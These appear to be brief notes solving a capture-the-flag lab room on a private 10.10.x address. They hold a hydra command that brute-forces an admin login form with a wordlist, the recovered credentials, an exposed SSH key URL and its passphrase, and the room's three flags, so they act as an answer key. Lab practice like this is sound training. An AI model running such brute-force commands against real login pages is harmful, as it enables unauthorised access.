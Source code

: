 ip: 10.10.53.177

/admin login page

hydra -l admin -P rockyou.txt 10.10.53.177 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V

user=admin&pass=passwdiguess

**CREDS**
uname: admin
paswd: xavier

ssh RSA key
http://10.10.53.177/admin/panel/id_rsa

key passphrase:
rockinroll

ssh uname: john



**FLAGS**
web
THM{brut3_f0rce_is_e4sy}

user.txt
THM{a_password_is_not_a_barrier}

root.txt
THM{pr1v1l3g3_3sc4l4t10n}